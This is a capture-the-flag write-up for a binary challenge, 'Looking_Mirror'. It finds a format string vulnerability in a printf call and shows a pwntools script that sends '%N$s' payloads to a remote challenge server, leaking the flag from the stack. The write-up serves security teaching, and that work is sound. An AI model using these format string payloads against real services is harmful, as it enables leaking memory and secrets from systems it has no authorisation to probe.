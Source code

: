 # Looking_Mirror

**Description**:  
Welcome brave adventurer, gaze into the immortal mirror and best it with your queries. Let it spill the much guarded secret to a masterful conquest!

**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**

**Solution**: 
As usual, lets start with checking the permissions with `checksec`:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Everything else enabled, except for canary. 

Now lets try running the binary:
```
Ask the looking mirror for the secret to a masterful conquest!
==============================================
Hi, you are face to face with the immortal mirror now!
Delve into its eternal wisdom and get the much gaurded secret.
Remember! it shall delight you with a reply, only if you are truly worthy. Otherwise it will echo your queries back to you.



> hi
Looking Mirror: hi

> I am Ath3n1x
Looking Mirror: I am Ath3n1x

> 
```
As the description says, it just spits out the input.

Now we will move on to examine the source code in ida/ghidra:
```
  do {
    printf("\n> ");
    fgets(local_98,0x40,stdin);
    printf("Looking Mirror: ");
    printf(local_98);
  } while( true );
```
Bingo, here is the culprit! Look at the printf statement `printf(local_98);`, a small friend called format specifier is missing leading to format string vulnerability.

Now that we found the vulnerability, lets again try running the binary and try to leak some stuff from stack.

```
> %p %p %p %p
Looking Mirror: 0x7ffd11b09970 (nil) (nil) 0x63605f4c248c

> %s %s %s %s %s
Looking Mirror: Looking Mirror: nil) (nil) 0x63605f4c248c
 (null) (null) 4t5_b4by_f0rm4773r}
 (null)
```
Woah, we got something. Now, lets prepare our exploit. I had a fuzzing script ready, so I used that for this challenge since we can directly leak the flag.

**Exploit:**
```python
from pwn import *

#elf = context.binary = ELF('./looking_mirror', checksec=False)

for i in range(100):
    try:
        #p = process(level='error')
        p = remote("13.234.11.113", 31481)
        p.sendlineafter(b'> ', '%{}$s'.format(i).encode())
        result = p.recvuntil(b'> ')
        print(str(i) + ': ' + str(result))
        p.close()
    except EOFError:
        pass
```

On running the script:
```
0: b'Looking Mirror: %0$s\n\n> '
1: b'Looking Mirror: Looking Mirror: \xe8\x03\n\n> '
2: b'Looking Mirror: (null)\n\n> '
3: b'Looking Mirror: (null)\n\n> '
4: b'Looking Mirror: iCTF{c0ngr4t5_b4by_f0rm4773r}\n\n\n> '
5: b'Looking Mirror: (null)\n\n> '
6: b'Looking Mirror: u\x91d*\xfc\x7f\n\n> '
8: b'Looking Mirror: (null)\n\n> '
10: b'Looking Mirror: shaktiCTF{c0ngr4t5_b4by_f0rm4773r}\n\n\n> '
```
Got it!

Flag: `shaktiCTF{c0ngr4t5_b4by_f0rm4773r}`              
